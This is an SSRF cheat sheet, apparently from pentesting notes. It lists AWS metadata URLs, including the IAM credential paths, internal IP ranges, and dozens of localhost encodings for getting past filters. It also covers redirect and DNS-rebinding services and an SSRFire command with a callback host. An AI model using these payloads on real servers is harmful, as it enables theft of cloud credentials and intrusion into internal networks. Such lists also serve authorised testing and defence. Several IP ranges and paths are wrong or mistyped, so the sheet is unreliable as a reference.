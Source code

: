 # SSRF

Sometimes sites offer the possibility to make external requests using their server, what if we could user their “external” service to make requests for internal resources. That’s SSRF.

If the site is hosted in amazon, it is possible to get internal information by requesting the urls:

```
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/flaws/
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/iam/securty-credentials
```

Another idea is to try and request IP’s that we know that are internal:

```
10.0.0.0 to 10.255.255.55
100.64.0.0 to 10.127.255.255
127.0.0.0 to 127.255.255.255
127.16.0.0 to 127.31.255.255
192.0.0.0 to 192.0.0.255
198.18.0.0 to 198.19.255.255
```

Sometimes websites block external acess to localhost (ie 127.0.0.1). Fortunately it is possible to bypass restrictions by referencing localhost in other ways.

Did you know that `127.0.0.1` and `127.1` are the same thing?

```
127.0.0.1
127.0.0.2
127.1
127.2
::1
0:0:0:0:0:0:0:1
0:0:0:000:0:0:0:1
0000:0000:0000:0000:0000:0000:0000:0001
2130706433
2130706434
7F000001
7F000002
localhos
127.123.123.123
0x7f.1
017700000001
127.0.0.1
localhost
0x7f.0x0.0x0.0x1
0177.00.00.01
017700000001
0x7f001
2130706433
017700000001
%6c%6f%63%61%6c%68%6f%73%74
%31%32%37%2e%30%2e%30%2e%31
0x7f000001
00000000177.000000000.000000000.000000001
0x7f.0x0.0x0.0x1
0x000000007f.0x000000000.0x000000000.0x000000001
0x7f.0x0.0x0.1
0x7f.0x0.0.1
0x7f.0.0.1
127.0x0.0x0.0x1
127.0.0x0.0x1
127.0.0.0x1
0177.00.00.1
0177.00.0.1
0177.0.0.1
127.00.00.01
127.0.00.01
127.0.0.01
0x7f.0x0.1
0x7f.1
0177.00.1
0177.1
0x7f.00.1
0177.0x0.1
::ffff:7f000001
0:0:0:0:0:ffff:7f000001
0000:0000:0000:0000:0000:ffff:7f000001
0000:0000:0000:0000:0000:ffff:127.0.0.1
hostname
0177.1
0177.2
0177.0.1
0177.0.2
017700000001
017700000002
0x7F000001
0x7F000002
0X07f.0.0.1
```

## IP Converter

- https://h.43z.one/ipconverter/

## Redirect from one URL to another

- https://ssrf.localdomain.pw

```
https://ssrf.localdomain.pw/csv-with-body/301-http-169.254.169.254:80-.c.csv
https://ssrf.localdomain.pw/img-with-body/301-http-169.254.169.254:80-.i.jpg
```

- https://sslip.io/

## DNS Rebinding

To put it super simply, DNS rebinding allows you to have a hostname that switches between 2 ips with a very low ttl. This can bypass SSRF protections by resolving as a “safe” ip at first, then immediately switching to an “unsafe” or internal ip.

- https://lock.cmpxchg8b.com/rebinder.html

## Using enclosed alphanumerics

```
http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ = example.com

List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ ⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ ⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ ⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ ⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```

## Cloud Meadata

Interactsh server supports DNS records for cloud metadata services, which is useful for testing SSRF-related vulnerabilities.


    aws.interact.sh points to 169.254.169.254
    alibaba.interact.sh points to 100.100.100.200


## Tools

```
# https://github.com/micha3lb3n/SSRFire
./ssrfire.sh -d domain.com -s burpcollab.com -f raw_urls
```

## Mindmap

![SSRF Mindmap](/ssrf_mindmap.png)

## Articles

| WriteUp | Description |
| --- | --- |
| https://dant0x65.medium.com/bug-bounty-tip-automating-ssrf-ea344ec59962 | Configure burp to look for SSRFs |
| https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery | All about SSRF |
| https://github.com/jdonsec/AllThingsSSRF | All Things SSRF |
| https://github.com/assetnote/blind-ssrf-chains | Blind SSRF Chains | 
